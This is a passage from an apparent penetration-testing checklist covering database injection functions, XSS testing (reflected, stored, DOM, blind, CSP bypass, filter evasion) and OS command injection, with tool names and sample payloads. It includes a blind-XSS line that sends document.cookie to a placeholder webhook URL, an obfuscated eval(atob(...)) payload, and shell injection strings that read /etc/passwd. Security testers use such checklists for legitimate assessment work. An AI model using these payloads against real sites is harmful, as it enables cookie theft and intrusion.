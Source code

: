 - [ ] **Database-specific** injection techniques and functions
  - **Tools**: [SQLMap](https://github.com/sqlmapproject/sqlmap), Database-specific payloads
  - **MySQL**: `LOAD_FILE()`, `INTO OUTFILE`, `CONCAT()`
  - **PostgreSQL**: `COPY`, `pg_read_file()`, `pg_ls_dir()`
  - **Oracle**: `UTL_HTTP`, `UTL_FILE`, `DBMS_JAVA`

### 5.2 Cross-Site Scripting (XSS) Testing

- [ ] **Reflected XSS** in all user input parameters
  - **Tools**: [XSStrike](https://github.com/s0md3v/XSStrike), [Burp Suite](https://portswigger.net/burp), [OWASP ZAP](https://www.zaproxy.org/)
  - **How-to**: `python3 xsstrike.py -u "target.com/search?q=FUZZ"`
  - **Payloads**: `<script>alert('XSS')</script>`, `"><script>alert(document.domain)</script>`

- [ ] **Stored XSS** in data persistence points
  - **Tools**: [XSS Hunter](https://xsshunter.com/), [BeEF](https://beefproject.com/), [Burp Suite](https://portswigger.net/burp)
  - **How-to**: Submit XSS payloads in forms, comments, profiles
  - **Blind XSS**: `<script src="https://your-server.com/hook.js"></script>`

- [ ] **DOM-based XSS** through client-side JavaScript manipulation
  - **Tools**: [DOMPurify](https://github.com/cure53/DOMPurify), [Burp Suite](https://portswigger.net/burp), Browser DevTools
  - **How-to**: Analyze JavaScript code, test URL fragments, localStorage
  - **Sources**: `window.location`, `document.referrer`, `localStorage`
  - **Sinks**: `innerHTML`, `eval()`, `setTimeout()`

- [ ] **Blind XSS** using external payload hosting services
  - **Tools**: [XSS Hunter](https://xsshunter.com/), [Webhook.site](https://webhook.site/), [Burp Collaborator](https://portswigger.net/burp/documentation/collaborator)
  - **How-to**: Submit payloads that call back to external server
  - **Payload**: `<script>fetch('https://webhook.site/YOUR-UUID?cookie='+document.cookie)</script>`

- [ ] **XSS in file upload** through malicious file names or content
  - **Tools**: [Burp Suite](https://portswigger.net/burp), [Upload Scanner](https://github.com/modzero/mod0BurpUploadScanner)
  - **How-to**: Upload files with XSS in filename, SVG with embedded scripts
  - **SVG payload**: `<svg onload="alert('XSS')">`, HTML files with script tags

- [ ] **Content Security Policy (CSP)** bypass techniques
  - **Tools**: [CSP Auditor](https://csp-auditor.org/), [CSP Bypass](https://github.com/PortSwigger/csp-bypass), [Burp Suite](https://portswigger.net/burp)
  - **How-to**: Analyze CSP header, find unsafe directives, JSONP endpoints
  - **Bypass**: `unsafe-inline`, `unsafe-eval`, JSONP callbacks, base-uri

- [ ] **Filter evasion** using encoding and obfuscation techniques
  - **Tools**: [XSS Polyglot](https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot), [HTML5 Security Cheatsheet](https://html5sec.org/)
  - **Encoding**: URL encoding, HTML entities, Unicode, Base64
  - **Obfuscation**: `eval(atob('YWxlcnQoJ1hTUycpOw=='))`, String.fromCharCode()

### 5.3 Command Injection Testing

- [ ] **OS command injection** through system calls
  - **Tools**: [Commix](https://github.com/commixproject/commix), [Burp Suite](https://portswigger.net/burp), Manual testing
  - **How-to**: `python commix.py --url="target.com/ping.php" --data="ip=127.0.0.1"`
  - **Payloads**: `; whoami`, `| cat /etc/passwd`, `&& dir`, `` `id` ``
